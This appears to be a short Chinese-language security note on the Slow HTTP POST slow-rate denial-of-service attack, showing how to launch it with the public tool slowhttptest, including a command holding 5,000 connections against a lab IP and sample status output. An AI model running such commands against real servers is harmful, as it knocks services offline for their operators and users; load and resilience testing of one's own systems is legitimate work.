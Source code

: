 ```yaml
---
title: Slow HTTP POST 慢速攻击
date: 2025-10-30 14:42:34
category: 安全漏洞
tags: 安全漏洞
---
```


## 测试工具

**模拟测试工具：slowhttptest**

> https://github.com/shekyan/slowhttptest

**安装：**

> https://github.com/shekyan/slowhttptest/wiki

**使用：**

> slowhttptest -c 5000 -u [hostname/ip]

- -c 表示发起5000个连接，由于是慢速DDOS且是基于http协议的，这里发起的连接请求是确确实实会与服务器进行三次握手并维持与服务器的连接的。

- -u 注意这里的hostname或者ip都需要在前面加上协议 http://。

**模拟测试：**


```
./slowhttptest -c 5000 -u https://192.168.1.3
```


```
slow HTTP test status on 50th second:

initializing:        0
pending:             8
connected:           1757
error:               0
closed:              3
service available:   YES
```

攻击如果成功，service available会变成no。